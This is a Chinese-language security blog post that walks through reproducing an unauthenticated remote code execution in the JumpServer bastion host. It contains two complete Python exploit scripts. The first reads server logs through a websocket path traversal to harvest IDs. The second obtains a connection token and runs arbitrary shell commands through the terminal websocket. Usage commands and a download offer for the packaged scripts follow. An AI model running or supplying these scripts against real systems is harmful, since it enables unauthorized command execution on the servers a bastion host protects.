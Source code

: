 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JrkTNuFw-tK5lWcAlbeCZQ)

  

**点击蓝字 ·  关注我们**

**01**

**前言**

‍

‍

 JumpServer 开源堡垒机部署广泛, 遵循 GNU GPL v2.0 开源协议, 是符合 4A 的专业运维安全审计系统  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTGy4CIvwHiaRicbONMEpm570lDy9K02VnxqS0sTFN1u9ic6AsVYAuwx9jBRcS02QicCLe21qQFygXicbDg/640?wx_fmt=png)

 网上公众号 && 大佬的分析文章已经很多了，参考了 360 安全忍者师傅的分析以后，替大家踩踩坑做一下复现。

**02**

**流程**

```
1.通过ws连接jumpserver的未授权api，进行日志读取 获取 (system_id,target_id,system_user_id)
2.利用 /api/v1/authentication/connection-token/?user-only=1  获取token （此token 20s内有效）
3.通过ws 连接 /koko/ws/token/?target_id  带入刚刚获取的token_id 进行执行命令
```

**03**

**获取日志**

```
#进行日志读取 获取 (system_id,target_id,system_user_id)
import asyncio
import websockets
import json
import re
import sys
try:
    ip=sys.argv[1]
except:
    print("example: python jumpserver_getlog_edi.py 127.0.0.1:8080")
    exit()
async def send_msg(websocket,_text):
    print("##########send payload")
    print("##########wait some time")
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(recv_text)
async def main_logic():
    async with websockets.connect(f"ws://{ip}/ws/ops/tasks/log/") as websocket:
        _text = json.dumps({"task": "../../../../../../../opt/jumpserver/logs/gunicorn"})
        await send_msg(websocket,_text)
        while True:
            recv_text = await websocket.recv()
            recv_text=json.loads(recv_text)
           # print(recv_text['message'])
           #print(len(recv_text['message']))
            if '/api/v1/perms/asset-permissions/user/validate/' in recv_text['message']:
                pattern = re.compile(
                    '\/api\/v1\/perms\/asset-permissions\/user\/validate\/\?action_name=connect&asset_id=(?P<asset>.*)&cache_policy=\d&system_user_id=(?P<system_user>.*)&user_id=(?P<user>.*) HTTP/1.1" 200 12')
                s = pattern.search(recv_text['message'])
                print(s.groupdict())
            if len(recv_text['message']) < 100:
                break
asyncio.get_event_loop().run_until_complete(main_logic())
print("end")
```

**04**

**执行命令**

### **执行命令 (刷取 token, 执行)**

```
import asyncio
import websockets
import requests
import json
url = "/api/v1/authentication/connection-token/?user-only=None"
async def send_msg(websocket,_text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(f"{recv_text}")
async def main_logic(cmd):
    print("#######start ws")
    async with websockets.connect(target) as websocket:
        recv_text = await websocket.recv()
        print(f"{recv_text}")
        resws=json.loads(recv_text)
        id = resws['id']
        print("get ws id:"+id)
        print("###############")
        print("init ws")
        print("###############")
        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket,inittext)
        for i in range(4):
            recv_text = await websocket.recv()
            print(f"{recv_text}")
        print("###############")
        print(f"exec cmd:{cmd}")
        cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd+"\r\n"})
        print(cmdtext)
        await send_msg(websocket, cmdtext)
        for i in range(4):
            recv_text = await websocket.recv()
            print(f"{recv_text}")
        print('#######finish')
if __name__ == '__main__':
    try:
        import sys
        host=sys.argv[1]
        cmd=sys.argv[2]
        if host[-1]=='/':
            host=host[:-1]
        print(host)
        data = {'asset': '6d519570-b89c-495b-bffb-f958cccaaf4c', 'system_user': '3ced8e58-8a88-4389-93cb-0bf718e8e22e', 'user': 'e6b344c0-682e-4e5c-845a-fb064e7bf673'}
        print("##################")
        print("get token url:%s" % (host + url,))
        print("##################")
        res = requests.post(host + url, json=data)
        token = res.json()["token"]
        print("token:%s", (token,))
        print("##################")
        target = "ws://" + host.replace("http://", '') + "/koko/ws/token/?target_id=" + token
        print("target ws:%s" % (target,))
        asyncio.get_event_loop().run_until_complete(main_logic(cmd))
    except:
        print("python jumpserver.py http://127.0.0.1 whoami")
```

**05**

**复现**

**0x01**

```
python jumpserver_getlog.py 127.0.0.1：8080
```

获取所用的三个 ID

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekO6ICdFAPgKmop4RjjbHxibxDwfLf2gia9vxOtGs9xnd20hOz6gSOicH4OuwwRYNLOMia7IntfD3BvbQ/640?wx_fmt=png)

**0x02**

替换 RCE 脚本的 ID 53 行处

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekO6ICdFAPgKmop4RjjbHxibEZ0ZHAK2rwsylUenNyiaO6TvS9fly5NW2885Yo2fcS1FL60AvEiaicWAQ/640?wx_fmt=png)

**0x03**

```
python jumpserver_rce.py http://x.x.x.x:8080/  "ls -al"
```

![](https://mmbiz.qpic.cn/mmbiz_png/rJALXSMzgekO6ICdFAPgKmop4RjjbHxibEZ0ZHAK2rwsylUenNyiaO6TvS9fly5NW2885Yo2fcS1FL60AvEiaicWAQ/640?wx_fmt=png)

看到这个就执行成功啦

**00**

Tip

**修改后的脚本打包了，懒得复制的同学可以直接 回复 "****EDI0118****" 下载**

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)